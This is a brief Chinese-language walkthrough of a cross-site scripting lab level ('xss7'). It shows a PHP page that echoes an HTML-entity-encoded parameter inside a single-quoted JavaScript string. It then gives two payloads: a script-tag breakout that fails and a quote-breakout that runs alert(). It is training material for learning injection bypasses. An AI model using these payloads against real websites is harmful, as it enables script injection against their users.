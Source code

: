 # xss7

进入example7.php

查看源码
```javascript
<script> var $a=' <?php echo htmlentitles($_GET["name"]); ?>'
```
payload1
```javascript
</script><script>alert('hello xss')</script><script>
```
这里跟第六题差不多一样
不过使用了htmlentitles这个函数把字符进行html实体编码
如果传入payload1
传到后台后执行的是这样的代码

```javascript
<script>
	var $a= '&lt;/script&gt;&lt;script&gt;alert('hello')&lt;/script&gt;&lt;script&gt;';
</script>
```
正反尖括号都被转码成了html的实体编码
不过**'**还有并没有被转码然后这里变量$a使用的是单引号而不是双引号所以可以像第六题那样
的payload2进行绕过

payload2
```javascript
';alert('hello xss');'
```
![img](../../../image/xss/418515154729.png)
过关e。e~